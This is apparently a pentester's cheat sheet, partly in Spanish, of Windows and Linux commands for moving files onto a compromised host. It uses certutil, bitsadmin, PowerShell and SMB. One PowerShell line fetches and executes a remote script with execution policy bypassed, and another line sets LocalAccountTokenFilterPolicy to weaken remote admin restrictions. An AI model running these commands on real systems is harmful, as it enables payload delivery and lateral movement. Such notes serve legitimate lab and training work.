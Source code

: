 Windows Linux Commands For Files Transfers

Windows Commads
IWR( )
- powershell.exe -command iwr -Uri http://10.10.16.4/file -OutFile C:\Temp\file
- powershell.exe iwr -uri 10.10.16.4/file -o C:\Temp\file
- powershell iwr 10.10.16.4/file -o C:\Temp\file

- powershell.exe -exec bypass -c "IEX(New-Object Net.WebClient).downloadString('http://10.200.101.200:20003/PST.ps1')"

Certutil
- certutil -urlcache -f http://10.10.16.4/file file
- certutil -urlcache -split -f http://10.10.16.4/file file 

Bitsadmin
- bitsadmin /transfer job http://10.10.16.4/file C:\Temp\file

Curl
- curl http://10.10.16.4/file -o file

Wget
- powershell wget http://10.10.16.4/file -OutFile file
- powershell.exe wget http://10.10.16.4/file -OutFile file

Powershell
- powershell.exe (New-Object System.Net.WebClient).DonwloadFile('http://10.10.16.4/file', 'file')

SMB
- copy \\10.10.16.4\smbFolder\file 
- net use x: \\10.10.16.4\smbFolder\file; cd x; copy \\10.10.16.4\file

TFTP
Es necesario usar el modulo Auxiliar Msf Server/tftp
- tftp -i 10.10.16.4 GET file.txt


Linux Commands 
Servidor Web Para compartir archivos
1.- python3 -m http.server 80
2.- Servidor por SMB -- impacket-smbserver smbFolder $(pwd) -smb2support
3.- msfconsole --> TFTP
4.-


# LocalAccountTokenFilterPolicy - Pwned
cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

# Enumeracion de Pogramas
tasklist /V | findstr <programa>
